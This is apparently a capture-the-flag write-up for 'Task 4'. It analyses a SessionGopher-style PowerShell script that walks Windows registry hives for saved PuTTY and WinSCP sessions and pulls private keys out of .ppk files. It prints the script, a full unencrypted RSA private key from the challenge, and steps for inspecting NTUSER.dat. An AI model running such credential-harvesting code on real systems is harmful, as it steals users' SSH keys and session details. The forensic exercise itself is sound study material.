

# Task 4

For task 4 we are given a zip file containing sever `.ppk` and `.pub` files.  The `ppk` files seem to contain a combination of public and private keys, and some associated metadata.  Additionally, we are given an `NTUSER.dat` file which contains registry entries.

Let's start by analyzing the powershell script retrieved from [task 3](../task-3/).

The primary functionality falls within `Invoke-SessionGopher`:

```powershell
function Invoke-SessionGopher {
  # Value for HKEY_USERS hive
  $HKU = 2147483651
  # Value for HKEY_LOCAL_MACHINE hive
  $HKLM = 2147483650

  $PuTTYPathEnding = "\SOFTWARE\SimonTatham\PuTTY\Sessions"
  $WinSCPPathEnding = "\SOFTWARE\Martin Prikryl\WinSCP 2\Sessions"

  
  Write-Log "Digging on $(Hostname)..."

  # Aggregate all user hives in HKEY_USERS into a variable
  $UserHives = Get-ChildItem Registry::HKEY_USERS\ -ErrorAction SilentlyContinue | Where-Object {$_.Name -match '^HKEY_USERS\\S-1-5-21-[\d\-]+$'}

  # For each SID beginning in S-15-21-. Loops through each user hive in HKEY_USERS.
  foreach($Hive in $UserHives) {

    # Created for each user found. Contains all PuTTY, WinSCP, FileZilla, RDP information. 
    $UserObject = New-Object PSObject

    $ArrayOfWinSCPSessions = New-Object System.Collections.ArrayList
    $ArrayOfPuTTYSessions = New-Object System.Collections.ArrayList
    $ArrayOfPPKFiles = New-Object System.Collections.ArrayList

    $objUser = (GetMappedSID)
    $Source = (Hostname) + "\" + (Split-Path $objUser.Value -Leaf)

    $UserObject | Add-Member -MemberType NoteProperty -Name "Source" -Value $objUser.Value

    # Construct PuTTY, WinSCP, RDP, FileZilla session paths from base key
    $PuTTYPath = Join-Path $Hive.PSPath "\$PuTTYPathEnding"
    $WinSCPPath = Join-Path $Hive.PSPath "\$WinSCPPathEnding"

    if (Test-Path $WinSCPPath) {

      # Aggregates all saved sessions from that user's WinSCP client
      $AllWinSCPSessions = Get-ChildItem $WinSCPPath

      (ProcessWinSCPLocal $AllWinSCPSessions)

    } # If (Test-Path WinSCPPath)
    
    if (Test-Path $PuTTYPath) {

      # Store .ppk files
      $PPKExtensionFilesINodes = New-Object System.Collections.ArrayList
      
      # Aggregates all saved sessions from that user's PuTTY client
      $AllPuTTYSessions = Get-ChildItem $PuTTYPath

      (ProcessPuTTYLocal $AllPuTTYSessions)
      
      (ProcessPPKFile $PPKExtensionFilesINodes)

    } # If (Test-Path PuTTYPath)

  } # For each Hive in UserHives
    
  Write-Host "Final log:"
  $global:log

} 
```

This seems to be iterating over all registry entries for PuTTY and WinSCP sessions, and calling respective processing functions.  Let's focus on `ProcessPPKFile` which populates the `PPKExtensionFilesINodes` before the program calls a function to process each `.ppk` file:

```powershell
function ProcessPPKFile($PPKExtensionFilesINodes) {

  # Extracting the filepath from the i-node information stored in PPKExtensionFilesINodes
  foreach ($Path in $PPKExtensionFilesINodes.VersionInfo.FileName) {

    # Private Key Encryption property identifies whether the private key in this file is encrypted or if it can be used as is
    $PPKFileObject = "" | Select-Object -Property "Source","Path","Protocol","Comment","Private Key Encryption","Private Key","Private MAC"

    $PPKFileObject."Source" = (Hostname)

    # The next several lines use regex pattern matching to store relevant info from the .ppk file into our object
    $PPKFileObject."Path" = $Path

    $PPKFileObject."Protocol" = try { (Select-String -Path $Path -Pattern ": (.*)" -Context 0,0).Matches.Groups[1].Value } catch {}
    $PPKFileObject."Private Key Encryption" = try { (Select-String -Path $Path -Pattern "Encryption: (.*)").Matches.Groups[1].Value } catch {}
    $PPKFileObject."Comment" = try { (Select-String -Path $Path -Pattern "Comment: (.*)").Matches.Groups[1].Value } catch {}
    $NumberOfPrivateKeyLines = try { (Select-String -Path $Path -Pattern "Private-Lines: (.*)").Matches.Groups[1].Value } catch {}
    $PPKFileObject."Private Key" = try { (Select-String -Path $Path -Pattern "Private-Lines: (.*)" -Context 0,$NumberOfPrivateKeyLines).Context.PostContext -Join "" } catch {}
    $PPKFileObject."Private MAC" = try { (Select-String -Path $Path -Pattern "Private-MAC: (.*)").Matches.Groups[1].Value } catch {}

    # Add the object we just created to the array of .ppk file objects
    [void]$ArrayOfPPKFiles.Add($PPKFileObject)

  }

  if ($ArrayOfPPKFiles.count -gt 0) {

    $UserObject | Add-Member -MemberType NoteProperty -Name "PPK Files" -Value $ArrayOfPPKFiles

    if ($o) {
      $ArrayOfPPKFiles | Select-Object * | Export-CSV -Append -Path ($OutputDirectory + "\PuTTY ppk Files.csv") -NoTypeInformation
    } else {
      Write-Log "PuTTY Private Key Files (.ppk)"
      Write-Log ($ArrayOfPPKFiles | Select-Object * | Format-List | Out-String)
    }

  }

}
```

About half way down we see a series of `try catch` blocks that are looking for string patterns.  These seem to correspond with the strings we see in our `.ppk` files we were given in `artifacts.zip`.  Of particular interest is the `Encryption` entry.  Let's start taking a look at our `.ppk` files a bit more closely.

After sifting through several files, we land one this one:

```bash
$ cat dkr_prd59.ppk
PuTTY-User-Key-File-2: ssh-rsa
Encryption: none
Comment: __COMP4__
Public-Lines: 6
AAAAB3NzaC1yc2EAAAABJQAAAQEAi2xdUFsRQhaU92qNU6U+pbUbHT+8me2TiY+v
8Nc3VHBuQRQ1p4OjJuhryN0dTv18uaW1lc1uFBHWExpPYaBAP3O7HzTfRD/o5xYH
L2+NMELqIeMkHMa/5BDzOB+sTObQdLJ5ZlAlczBdDsKI7hQwp9w6VherXzadGx2N
rD/uME4ETJZj/a3WqdmYU5JinX58DwM8zqALh3CMZP0ZE7tPiW5vyEo6TDYX9o02
l2V5+Cah8zpyXSiIYEe3WKqp2Ohl83J2E/FuWse3kGiSdBVk3JMtmsZkzmL25wh9
K3LjdS3hzmi6z7IT1rmU+5yOR+Km9dTCvqY27AU0fouGNlDi8w==
Private-Lines: 14
AAABAHELwUgSfLIgJcGwVunf7ZsdOJRBhCnHjGGyxgGL56w/e/1qVQRc5SZ3QqLc
y6fUcvdjw6nk1csVYXdFw9Kdm+BrrHoq3opdVQ5k4zs32kLOeKXaw1WaOrjrJhHU
fd184F6ei/IXeE+O/1gTWkR/ErGdzm9RdjGGOjGpQm/8e+/PWYizwcOTJfCXuFKF
qaOJbCovinuFic+376Rhgo5Vo0sqqjlkRC8EPrewBbjc157Y2okKVmoc2H75XV1/
uBZ3o6oS8KknQAwYSdQZmdLnx2Uqft8j5MvdjsA+JHRmIjPWa2/UjOaPjPi4U6OH
uC1tK+xUF7Du0OAHIErSQYTeDv0AAACBANOT1+3kz7BzkptUoYJL6Y34S7NMemYu
IzcgWP+4fH4MS9G6yd2B+vUff/yo3uWddF/o8A0TLyjHTY01EVIN+qafgcqPD4aA
GjQonifN0KJnsa8XqADuW4qZl7vB8ZNOA8SYHtpzgVbYsnABus8LV5g3AqAFI7UF
DEMEJ6ZQ3P8HAAAAgQCoskcpQUJEODaImSnkbklPFeNNpYl7YaY2PivWNDuZKPaH
18j3oU+AJ7QhzsuKbB5FlHlhHG9lpwrhp8AW4mtCRnLpGqj2urGw4jNgIibmIsau
1k/85JhNT0Y/HjaMXrK61wf/YfcoujTf9HYX0VE2cK6wLBezfVaN6ukXn3MVtQAA
AIB2+HEmxXUIAqNj7Us3KjvUXVEzzYfT+J+MqkC22GJbKsUWGb+0EWTSLgTQtI83
WxEFBGJ1fo5pQ0KHDEdry9+s91yrHlMnfQBl33R8eKZKdknvh53C0ney+4C21Fc+
u++6hO4qP3foJEIJ4t7wPTtMOVNHRkfFLnGPSFy7jwjWMA==
Private-MAC: 69516e4c3f42737590234ba010954761879abd61
```

This is the only `.ppk` file that lists an `Encryption` type of `none`.  Let's load up `NTUSER.dat` into the registry editor to see if we can get some additional information about this `.ppk` file.

On a windows box, we can use `Registry Editor` to view the contents of `NTUSER.dat`.  Open `Registry Editor` and click on `HKEY_USERS`.  Select `File -> Load Hive` and import `NTUSER.dat`.  Give it the name `CODEBREAKER` so it stands out.  Once loaded, navigate to `CODEBREAKER -> Software -> SimonTahtham -> PuTTY -> Sessions` and you should see a handful of entries.  Click on `dkr_prd59` and start looking at the key value pairs.

After a bit of scrolling, we should see the `HostName` entry with corresponding value `builder03@dkr_prd59`.  These are our answers for task 4:

